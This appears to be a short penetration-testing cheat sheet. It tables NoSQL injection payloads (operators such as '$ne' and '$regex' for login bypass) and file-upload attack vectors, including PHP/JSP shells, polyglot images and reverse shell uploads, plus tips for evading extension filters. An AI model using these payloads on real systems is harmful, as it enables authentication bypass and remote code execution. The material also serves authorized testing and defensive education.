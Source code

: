 ### 🧩 NoSQL Injection – Target Points & Payloads

| Endpoint Example                  | Method | Parameter/Field     | Location        | Example Payload                         |
|----------------------------------|--------|---------------------|------------------|------------------------------------------|
| `/api/user/login`                | POST   | `username`, `pass`  | JSON Body        | `{ "username": { "$ne": null }, "password": { "$ne": null } }` |
| `/search`                        | POST   | `searchTerm`        | JSON Body        | `{ "search": { "$gt": "" } }`            |
| `/product?id=xyz`                | GET    | `id`                | URL Param        | `?id[$ne]=1`                             |
| `/api/comments/filter`          | POST   | `filter[user]`      | JSON/Query       | `"filter": { "user": { "$ne": null } }`  |
| `/login` (MongoDB based)         | POST   | JSON input          | Web Form/API     | `{ "username": {"$regex": ".*"}, "password": {"$regex": ".*"} }` |

🔍 *MongoDB, CouchDB, and other NoSQL-based apps are vulnerable when user-controlled JSON is not sanitized properly.*

---

### 🧾 File Upload Vulnerabilities – Lookout Zones

| Endpoint Example                  | Method | Parameter/Field     | Location        | Exploit/Payload Type                   |
|----------------------------------|--------|---------------------|------------------|----------------------------------------|
| `/upload`                        | POST   | `file`              | Multipart Form   | Upload `.php`, `.jsp`, or `.aspx` files|
| `/api/profile/picture`           | POST   | `image`             | API Form Upload  | Polyglot image with embedded JS/PHP    |
| `/support/ticket/attachment`     | POST   | `attachment`        | Form/API Upload  | Upload reverse shell script file       |
| `/editor` (Rich Text)            | POST   | `html`, `doc` file  | WYSIWYG/Editor   | Upload HTML file with JS script inside |
| `/backup/restore`                | POST   | `.zip` or `.tar.gz` | API/Panel Upload | Inject malicious code in backup files  |

💡 Try uploading a `.php5`, `.phtml`, `.htaccess`, or renamed extension to bypass filters. Also, monitor the **upload folder paths**—often exposed as `/uploads`, `/assets`, or `/userfiles`.

